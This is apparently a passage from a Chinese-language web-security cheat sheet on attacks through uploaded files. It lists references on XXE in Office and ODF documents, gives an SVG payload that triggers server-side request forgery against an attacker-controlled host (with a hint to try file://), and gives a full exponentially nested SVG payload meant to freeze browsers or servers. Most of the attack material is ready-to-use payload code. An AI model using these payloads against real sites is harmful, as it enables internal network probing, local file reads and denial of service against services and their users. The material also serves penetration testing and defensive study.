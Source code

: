 

XXE in OOXML/ODF

```
.docx		.xlsx		.odt
```

- https://oxmlxxe.github.io/
- [Exploiting XXE with Excel](https://www.4armed.com/blog/exploiting-xxe-with-excel/)



### SSRF

 Tip:

如果目标存在导出功能，如给svg导出为pdf这种功能，那么可能存在**SSRF**

```xml
&lt;svg xmlns:svg=&#34;http://www.w3.org/2000/svg&#34; xmlns=&#34;http://www.w3.org/2000/svg&#34; xmlns:xlink=&#34;http://www.w3.org/1999/xlink&#34; width=&#34;200&#34; height=&#34;200&#34;&gt; 
&lt;image height=&#34;30&#34; width=&#34;30&#34; 
xlink:href=&#34;https://controlledserver.com/pic.svg&#34; /&gt; 
&lt;/svg&gt;
```

可尝试使用其他协议更直观的查看，如`file://`

参考：

- [SVG Server Side Request Forgery (SSRF)](https://hackerone.com/reports/223203)
- [SVG SSRF Cheatsheet](https://github.com/allanlw/svg-cheatsheet)



### DOS

如果可以上传任意SVG文件，且可在网站的某些页面中进行展示，那么可以通过反复嵌套使用，直至浏览器或者电脑卡死。

&gt; 可以展示：不一定非得是`&lt;svg&gt;`标签的形式，也可以通过img等标签展示，形如：`&lt;img src=&#34;data:image/svg&#43;xml;base64,&lt;svg base64&gt;&#34; alt=&#34;SVG Image&#34;&gt;`

```xml
&lt;svg version=&#34;1.2&#34; baseProfile=&#34;tiny&#34; xmlns=&#34;http://www.w3.org/2000/svg&#34; xmlns:xlink=&#34;http://www.w3.org/1999/xlink&#34; x=&#34;0px&#34; y=&#34;0px&#34; xml:space=&#34;preserve&#34;&gt;
&lt;path id=&#34;a&#34; d=&#34;M0,0&#34;/&gt;
&lt;g id=&#34;b&#34;&gt;&lt;use xlink:href=&#34;#a&#34;/&gt;&lt;use xlink:href=&#34;#a&#34;/&gt;&lt;use xlink:href=&#34;#a&#34;/&gt;&lt;use xlink:href=&#34;#a&#34;/&gt;&lt;use xlink:href=&#34;#a&#34;/&gt;&lt;use xlink:href=&#34;#a&#34;/&gt;&lt;use xlink:href=&#34;#a&#34;/&gt;&lt;use xlink:href=&#34;#a&#34;/&gt;&lt;use xlink:href=&#34;#a&#34;/&gt;&lt;use xlink:href=&#34;#a&#34;/&gt;&lt;/g&gt;
&lt;g id=&#34;c&#34;&gt;&lt;use xlink:href=&#34;#b&#34;/&gt;&lt;use xlink:href=&#34;#b&#34;/&gt;&lt;use xlink:href=&#34;#b&#34;/&gt;&lt;use xlink:href=&#34;#b&#34;/&gt;&lt;use xlink:href=&#34;#b&#34;/&gt;&lt;use xlink:href=&#34;#b&#34;/&gt;&lt;use xlink:href=&#34;#b&#34;/&gt;&lt;use xlink:href=&#34;#b&#34;/&gt;&lt;use xlink:href=&#34;#b&#34;/&gt;&lt;use xlink:href=&#34;#b&#34;/&gt;&lt;/g&gt;
&lt;g id=&#34;d&#34;&gt;&lt;use xlink:href=&#34;#c&#34;/&gt;&lt;use xlink:href=&#34;#c&#34;/&gt;&lt;use xlink:href=&#34;#c&#34;/&gt;&lt;use xlink:href=&#34;#c&#34;/&gt;&lt;use xlink:href=&#34;#c&#34;/&gt;&lt;use xlink:href=&#34;#c&#34;/&gt;&lt;use xlink:href=&#34;#c&#34;/&gt;&lt;use xlink:href=&#34;#c&#34;/&gt;&lt;use xlink:href=&#34;#c&#34;/&gt;&lt;use xlink:href=&#34;#c&#34;/&gt;&lt;/g&gt;
&lt;g id=&#34;e&#34;&gt;&lt;use xlink:href=&#34;#d&#34;/&gt;&lt;use xlink:href=&#34;#d&#34;/&gt;&lt;use xlink:href=&#34;#d&#34;/&gt;&lt;use xlink:href=&#34;#d&#34;/&gt;&lt;use xlink:href=&#34;#d&#34;/&gt;&lt;use xlink:href=&#34;#d&#34;/&gt;&lt;use xlink:href=&#34;#d&#34;/&gt;&lt;use xlink:href=&#34;#d&#34;/&gt;&lt;use xlink:href=&#34;#d&#34;/&gt;&lt;use xlink:href=&#34;#d&#34;/&gt;&lt;/g&gt;
&lt;g id=&#34;f&#34;&gt;&lt;use xlink:href=&#34;#e&#34;/&gt;&lt;use xlink:href=&#34;#e&#34;/&gt;&lt;use xlink:href=&#34;#e&#34;/&gt;&lt;use xlink:href=&#34;#e&#34;/&gt;&lt;use xlink:href=&#34;#e&#34;/&gt;&lt;use xlink:href=&#34;#e&#34;/&gt;&lt;use xlink:href=&#34;#e&#34;/&gt;&lt;use xlink:href=&#34;#e&#34;/&gt;&lt;use xlink:href=&#34;#e&#34;/&gt;&lt;use xlink:href=&#34;#e&#34;/&gt;&lt;/g&gt;
&lt;g id=&#34;g&#34;&gt;&lt;use xlink:href=&#34;#f&#34;/&gt;&lt;use xlink:href=&#34;#f&#34;/&gt;&lt;use xlink:href=&#34;#f&#34;/&gt;&lt;use xlink:href=&#34;#f&#34;/&gt;&lt;use xlink:href=&#34;#f&#34;/&gt;&lt;use xlink:href=&#34;#f&#34;/&gt;&lt;use xlink:href=&#34;#f&#34;/&gt;&lt;use xlink:href=&#34;#f&#34;/&gt;&lt;use xlink:href=&#34;#f&#34;/&gt;&lt;use xlink:href=&#34;#f&#34;/&gt;&lt;/g&gt;
```